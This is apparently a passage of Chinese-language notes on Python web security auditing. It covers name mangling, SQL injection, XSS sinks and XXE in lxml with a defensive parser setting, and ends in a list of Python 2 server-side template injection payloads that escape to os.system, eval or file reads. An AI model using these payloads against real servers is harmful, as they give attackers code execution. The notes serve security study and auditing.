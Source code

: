 In [85]: class A():
    ...:     __a = 1
    ...:     b = 2
    ...:     def __c(self):
    ...:         print "asd"
    ...:     def d(self):
    ...:         print 'dsa'
    ...:         

In [86]: A
Out[86]: <class __main__.A at 0x7fc3444048d8>

In [87]: dir(A)
Out[87]: ['_A__a', '_A__c', '__doc__', '__module__', 'b', 'd']
```



## 0x03Sql注入

因sqlalchemy等orm框架的使用，pythonweb中较少

## 0x04XSS

1.动态属性
```
<img alt={{foo}}

```
2.mark_safe函数与autoescape标签滥用

3.domxss

4.httpresponse返回动态内容

## 0x05XXE

lxml模块使用的xmlparse使用libxml<2.9 导致xxe

xml.dom.mindom 或 xml.etree.ElementTree 不受影响

防御：

```
from lxml import etree
parser = etree.XMLParser(resolve_entities=False)
```

## 0x06SSTI


payload:
```
python2：
[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].system('ls')
[].__class__.__base__.__subclasses__()[76].__init__.__globals__['os'].system('ls')
"".__class__.__mro__[-1].__subclasses__()[60].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')
"".__class__.__mro__[-1].__subclasses__()[61].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')
"".__class__.__mro__[-1].__subclasses__()[40](filename).read()
"".__class__.__mro__[-1].__subclasses__()[29].__call__(eval,'os.system("ls")')
